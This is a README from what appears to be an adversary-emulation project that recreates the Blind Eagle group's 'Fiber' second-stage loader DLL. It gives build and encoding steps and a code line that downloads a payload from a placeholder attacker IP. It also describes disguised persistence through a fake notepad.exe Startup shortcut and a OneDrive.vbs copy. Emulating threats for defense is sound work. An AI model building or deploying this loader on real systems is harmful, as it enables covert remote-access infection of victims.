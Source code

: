 # Fiber DLL

## Overview

Fiber is a second stage loader that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. Fiber has three functions that it performs:

1) Copies the VBS loader to `C:\Windows\Temp` and renames it `OneDrive.vbs`

2) Downloads and executes the injector fsociety.dll

3) Establishes userland persistence by creating an `lnk` file in the users Startup folder posing as notepad.exe

The VAI method of `fiber.dll` takes one argument, a URL. The URL is typically passed in obfuscated form from the first stage loader to fiber.dll. fiber.dll will unreverse the URL and replace junk characters with ones to form a proper URL. On the other end of the URL is the AsyncRAT payload (asy.txt).

## Usage

`fiber.dll` first needs to be encoded in base64. `file-ops.py` has a function for this and can be used as follows:

Windows:
```PowerShell
py.exe ./file-ops.py -b path\to\repo\birdsofprey\Resources\fiber\fiber\bin\Release\fiber.dll
```

Linux/Mac:
```bash
python3 ./file-ops.py -b path/to/repobirdsofprey/Resources/fiber/fiber/bin/Release/fiber.dll
```

The URL on line 55 will also need to be updated prior to build with the IP address of the attacker server:

```
55               }.DownloadString(Strings.StrReverse("slx.pmuR/pmuR/<reverse-attacker-ip>//:ptth")); // http://<attacker-ip>/Rump/Rump.xls
```

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fiber.sln` solution. Also instructions for the Visual Studio GUI are also included:


### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\fiber> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fiber.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    ![open](../../Screenshots/open-solution.png)

    ![fiber-sln](../../Screenshots/fiber-sln.png)

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    ![debug->release](../../Screenshots/asyncrat-vs-build-release.png)

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\fiber\bin\Release`

    ![build](../../Screenshots/asyncrat-vs-build-solution.png)

## Cleanup

1) delete `OneDrive.vbs` from `C:\Windows\Temp`

2) delete `notepad.lnk` from `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`

## References and CTI

1) https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia

2) https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/